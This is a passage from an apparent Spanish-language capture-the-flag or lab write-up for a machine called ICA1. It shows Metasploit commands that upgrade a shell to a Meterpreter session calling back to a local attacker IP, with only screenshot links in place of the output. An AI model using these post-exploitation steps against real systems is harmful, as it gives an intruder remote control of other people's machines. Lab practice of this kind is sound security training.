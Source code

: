 Voy a upgradear la sesion 1 a una sesion de meterpreter para poder usar mas adelante modulos de enumeracion en la maquina objetivo.

Para esto uso el modulo `shell_to_meterpreter`

```sh
use post/multi/manage/shell_to_meterpreter
```

![alt text](../assets/images/ICA1/image-56.png)

Defino la sesion 1 y la IP para el localhost contra la que devolvera la sesion de meterpreter.

```sh
set session 1
set LhOST 192.168.88.3
```

![alt text](../assets/images/ICA1/image-57.png)

Lanzo el modulo con el comando `exploit`

![alt text](../assets/images/ICA1/image-58.png)
